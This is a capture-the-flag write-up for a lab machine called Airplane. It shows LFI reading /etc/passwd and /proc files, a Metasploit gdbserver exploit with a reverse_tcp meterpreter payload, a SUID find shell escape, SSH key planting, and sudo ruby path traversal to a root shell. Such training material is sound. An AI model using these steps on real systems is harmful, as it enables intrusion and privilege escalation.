 {% from "macros.html" import console, image, text, code, list, link, header, script, imageModal %}

{{imageModal()}}

{{header("Enumeration", "enumeration")}}

{{text("We begin with an <strong>Nmap</strong> scan to identify open ports.")}}

{{console("nmap -T5 -p- 10.10.140.195", "Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-22 15:19 CET
Nmap scan report for 10.10.140.195
Host is up (0.079s latency).
PORT     STATE SERVICE
22/tcp   open  ssh
6048/tcp open  x11
8000/tcp open  http-alt

Nmap done: 1 IP address (1 host up) scanned in 62.74 seconds")}}

{{text("We find 3 open ports:")}}

{{list(['22 (SSH)', '6048 (x11)', '8000 (HTTP)'])}}

{{text("When visiting <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>http://10.10.140.195:8000</code> we get redirected to <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>http://airplane.thm:8000/?page=index.html</code> and get a page about airplanes.")}}

{{text("Remember to add <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>MACHINE_IP airplane.thm</code> to <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>/etc/hosts</code> otherwise it won't load.")}}

{{image("../../static/writeups/airplane/images/000001.jpg")}}

{{text("What instantly caught my interest was the URL parameter. First thing that came to my mind was <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>LFI</code>.")}}

{{text("I began checking for directory traversal and I was successful trying to get to <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>/etc/passwd</code>.")}}

{{image("../../static/writeups/airplane/images/000002.jpg")}}

{{text("We now have the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>/etc/passwd</code> file, and while reading it we find two users - <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>carlos</code> and <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>hudson</code>.")}}

{{text("Unfortunately I was unable to get a flag from these users directories using this method.")}}

{{text("While looking through the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>/proc/self</code> directory which contains information about the currently running process, I read the  <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>cmdline</code> file which contained the command used to run the website.")}}

{{console("cat cmdline", "/usr/bin/python3app.py")}}

{{text("We see that it was run using <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>python</code> and the file name is <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>app.py</code>. We should look for that file.")}}

{{text("We find it in <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>/proc/self/cwd/app.py</code> and are able to read the source code.")}}

{{console("", "from flask import Flask, send_file, redirect, render_template, request
import os.path

app = Flask(__name__)


@app.route('/')
def index():
    if 'page' in request.args:
        page = 'static/' + request.args.get('page')

        if os.path.isfile(page):
            resp = send_file(page)
            resp.direct_passthrough = False

            if os.path.getsize(page) == 0:
                resp.headers['Content-Length']=str(len(resp.get_data()))

            return resp
        
        else:
            return 'Page not found'

    else:
        return redirect('http://airplane.thm:8000/?page=index.html', code=302)    


@app.route('/airplane')
def airplane():
    return render_template('airplane.html')


if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8000)")}}

{{text("Unfortunately we can't find any more vulnerabilities except for already exploited LFI.")}}

{{text("I tried to find out what other service was running on the other port.")}}

{{header("Shell as hudson", "shell-as-hudson")}}

{{text("For that we need that service <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>PID</code> so we can pass it to the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>/proc/[PID]/cmdline</code> directory.")}}

{{text("I used <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>Intruder</code> in Burp Suite and searched for port <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>6048</code>.")}}

{{image("../../static/writeups/airplane/images/000003.jpg")}}

{{text("The correct PID was <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>525</code>.")}}

{{text("I used <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>metasploit</code> in order to exploit the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>gdbserver</code> running on that port.")}}

{{image("../../static/writeups/airplane/images/000004.jpg")}}

{{text("After setting correct options, I ran the exploit.")}}

{{text("You have to run <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>set target 1</code> and <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>set payload linux/x64/meterpreter/reverse_tcp</code> because we are attacking a 64-bit machine.")}}

{{image("../../static/writeups/airplane/images/000005.jpg")}}

{{text("After that use <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>shell</code> to gain a shell.")}}

{{text("It worked and now we are user <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>hudson</code>.")}}

{{header("Shell as carlos", "shell-as-carlos")}}

{{text("We look for binaries with <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>SUID</code> bit set.")}}

{{text("We find <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>find</code> binary that is owned by user <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>carlos</code>.")}}

{{console("find / -perm -u=s -type f 2>/dev/null", "/usr/bin/find
...")}}

{{text("We search for it on <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>GTFOBins</code>.")}}

{{link("https://gtfobins.github.io/gtfobins/find/", "https://gtfobins.github.io/assets/logo.png", "find | GTFOBins")}}

{{text("According to this if we run <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>find . -exec /bin/sh -p \; -quit</code>, we should become the user <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>carlos</code>.")}}

{{image("../../static/writeups/airplane/images/000007.jpg")}}

{{header()}}

{{text("We now can add our own key to <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>/home/carlos/.ssh/authorized_keys</code> to get a better shell.")}}

{{text("We generate a key pair with <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>ssh-keygen</code> and add our public key.")}}

{{image("../../static/writeups/airplane/images/000008.jpg")}}

{{text("We are now able to log in via SSH with our private key as user <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>carlos</code>.")}}

{{header("Shell as root", "shell-as-root")}}

{{text("We run <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>sudo -l</code> to check for sudo privilages.")}}

{{console("sudo -l", "Matching Defaults entries for carlos on airplane:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User carlos may run the following commands on airplane:
    (ALL) NOPASSWD: /usr/bin/ruby /root/*.rb")}}

{{text("We can run any <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>.rb</code> file in <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>/root</code> directory using <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>/usr/bin/ruby</code>.")}}

{{text("We are easily able to exploit that using path travesal.")}}

{{text("We create a file that will add the<code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>SUID</code> bit to bash when run and execute our privilaged command.")}}

{{image("../../static/writeups/airplane/images/000009.jpg")}}

{{text("Now we use <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>bash -p</code> to become root and read the final flag.")}}

{{image("../../static/writeups/airplane/images/000010.jpg")}}

{{script()}}